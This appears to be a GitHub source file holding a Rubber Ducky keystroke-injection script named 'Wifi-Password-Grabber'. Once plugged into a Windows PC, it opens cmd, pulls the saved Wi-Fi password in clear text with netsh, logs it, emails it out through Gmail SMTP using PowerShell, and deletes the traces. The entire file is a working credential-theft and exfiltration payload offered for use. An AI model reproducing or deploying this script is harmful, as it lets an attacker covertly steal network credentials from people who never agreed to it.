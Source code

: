 # Wifi-Password-Grabber
Wifi password grabber
REM Author: Siem
REM EDITED BY GNOMMISTER (Added more breaks to make code more smoother, still looking forward to make universal code for all types of keyboards(PLEASE ANY SUGGESTIONS))
REM Version: 4
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt and emails the contents of Log.txt from a gmail account.
DELAY 3000
REM --> Minimize all windows
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 200
REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=:" %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER
STRING set A="%A:~1%"
ENTER
REM --> Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER
DELAY 100
REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER
DELAY 200
REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER
DELAY 100
REM --> Get password
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER
DELAY 100
REM --> Delete A.txt
STRING del A.txt
ENTER
REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER
DELAY 200
REM --> Mail Log.txt
STRING powershell
ENTER
DELAY 7000
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
DELAY 300
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
DELAY 3000
STRING $SMTPInfo.EnableSsl = $true
ENTER
DELAY 100
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
DELAY 300
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
DELAY 1000
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 6000
STRING exit
ENTER
DELAY 2000
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
